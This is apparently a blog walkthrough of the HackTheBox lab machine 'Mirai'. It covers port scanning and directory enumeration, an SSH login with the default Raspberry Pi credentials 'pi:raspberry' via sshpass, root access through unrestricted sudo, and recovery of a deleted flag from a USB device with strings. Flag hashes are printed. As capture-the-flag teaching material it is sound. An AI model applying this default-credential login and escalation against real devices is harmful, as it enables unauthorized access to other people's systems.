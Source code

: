 ```yaml
---
layout: post
title: Hackthebox Mirai Walkthrough
categories: HackTheBox
---
```


![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-10/mirai-badge.png)

# Explanation
<a href="https://www.hackthebox.eu">Hackthebox</a> is a website which has a bunch of vulnerable machines in its own VPN.<br>
This is a walkthrough of a box `Mirai`.<br>

# Solution
## 1. Initial Enumeration
### TCP Port Scanning:
```shell
root@kali:~# nmap -p- 10.10.10.48 -sV -sC
Starting Nmap 7.80 ( https://nmap.org ) at 2020-04-10 09:35 EEST
Nmap scan report for 10.10.10.48
Host is up (0.033s latency).
Not shown: 65529 closed ports
PORT      STATE SERVICE VERSION
22/tcp    open  ssh     OpenSSH 6.7p1 Debian 5+deb8u3 (protocol 2.0)
| ssh-hostkey:
|   1024 aa:ef:5c:e0:8e:86:97:82:47:ff:4a:e5:40:18:90:c5 (DSA)
|   2048 e8:c1:9d:c5:43:ab:fe:61:23:3b:d7:e4:af:9b:74:18 (RSA)
|   256 b6:a0:78:38:d0:c8:10:94:8b:44:b2:ea:a0:17:42:2b (ECDSA)
|_  256 4d:68:40:f7:20:c4:e5:52:80:7a:44:38:b8:a2:a7:52 (ED25519)
53/tcp    open  domain  dnsmasq 2.76
| dns-nsid:
|_  bind.version: dnsmasq-2.76
80/tcp    open  http    lighttpd 1.4.35
|_http-server-header: lighttpd/1.4.35
|_http-title: Site doesn't have a title (text/html; charset=UTF-8).
1050/tcp  open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
32400/tcp open  http    Plex Media Server httpd
| http-auth:
| HTTP/1.1 401 Unauthorized\x0D
|_  Server returned status 401 but no WWW-Authenticate header.
|_http-cors: HEAD GET POST PUT DELETE OPTIONS
|_http-title: Unauthorized
32469/tcp open  upnp    Platinum UPnP 1.0.5.13 (UPnP/1.0 DLNADOC/1.50)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 70.07 seconds
```

### Gobuster HTTP:
```shell
root@kali:~# gobuster dir -u http://10.10.10.48 -w /usr/share/seclists/Discovery/Web-Content/common.txt
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.10.48
[+] Threads:        10
[+] Wordlist:       /usr/share/seclists/Discovery/Web-Content/common.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Timeout:        10s
===============================================================
2020/04/10 09:37:20 Starting gobuster
===============================================================
/admin (Status: 301)
/swfobject.js (Status: 200)
===============================================================
2020/04/10 09:37:36 Finished
===============================================================
```


## 2. Getting User
We found an admin console in `10.10.10.48/admin/`.<br>
The name of the service is `Pi-hole`.
![placeholder](https://media.githubusercontent.com/media/1n4r1/1n4r1.github.io/master/public/images/2020-04-10/2020-04-10-10-30-38.png)

The default password for `Pi-hole`is `pi:raspberry`.<br>
We can use it for the SSH login.
```shell
root@kali:~# sshpass -p raspberry ssh pi@10.10.10.48

The programs included with the Debian GNU/Linux system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Debian GNU/Linux comes with ABSOLUTELY NO WARRANTY, to the extent
permitted by applicable law.
Last login: Fri Apr 10 06:49:57 2020 from 10.10.14.32 

SSH is enabled and the default password for the 'pi' user has not been changed.
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.


SSH is enabled and the default password for the 'pi' user has not been changed. 
This is a security risk - please login as the 'pi' user and type 'passwd' to set a new password.

pi@raspberrypi:~ $
```

Now we got an user `pi`.<br>
`user.txt` is in a directory `/home/pi/Desktop`.
```shell
pi@raspberrypi:~ $ cat Desktop/user.txt 
ff837707441b257a20e32199d7c8838d
```


## 3. Getting Root
Using `sudo -l`, we can find out that we can run any command with root privilege.
```shell
pi@raspberrypi:~ $ sudo -l
Matching Defaults entries for pi on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

User pi may run the following commands on localhost:
    (ALL : ALL) ALL
    (ALL) NOPASSWD: ALL
```

Change the user and go to `/root`.<br>
We have `root.txt` which says we don't have the flag here.
```shell
root@raspberrypi:~# cat root.txt 
I lost my original root.txt! I think I may have a backup on my USB stick...
```

Using `df -h`, we can find out `/dev/sdb` is mounted on `/media/usbstick`.
```shell
root@raspberrypi:~# df -h
Filesystem      Size  Used Avail Use% Mounted on
aufs            8.5G  2.8G  5.3G  34% /
tmpfs           100M  4.8M   96M   5% /run
/dev/sda1       1.3G  1.3G     0 100% /lib/live/mount/persistence/sda1
/dev/loop0      1.3G  1.3G     0 100% /lib/live/mount/rootfs/filesystem.squashfs
tmpfs           250M     0  250M   0% /lib/live/mount/overlay
/dev/sda2       8.5G  2.8G  5.3G  34% /lib/live/mount/persistence/sda2
devtmpfs         10M     0   10M   0% /dev
tmpfs           250M  8.0K  250M   1% /dev/shm
tmpfs           5.0M  4.0K  5.0M   1% /run/lock
tmpfs           250M     0  250M   0% /sys/fs/cgroup
tmpfs           250M  8.0K  250M   1% /tmp
/dev/sdb        8.7M   93K  7.9M   2% /media/usbstick
tmpfs            50M     0   50M   0% /run/user/999
tmpfs            50M     0   50M   0% /run/user/1000
```

Then, go to `/media/usbstick`.<br>
There is an interesting file `damnit.txt`.
```shell
root@raspberrypi:/media/usbstick# cat damnit.txt 
Damnit! Sorry man I accidentally deleted your files off the USB stick.
Do you know if there is any way to get them back?

-James
```

Sounds `root.txt` has been deleted already.<br>
We can find the flag by running `strings`.
```shell
root@raspberrypi:~# strings /dev/sdb
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
>r &
/media/usbstick
lost+found
root.txt
damnit.txt
>r &
/media/usbstick
2]8^
lost+found
root.txt                                                                                         
damnit.txt                                                                                       
>r &                                                                                             
3d3e483143ff12ec505d026fa13e020b                                                                 
Damnit! Sorry man I accidentally deleted your files off the USB stick.                           
Do you know if there is any way to get them back?                                                
-James
```
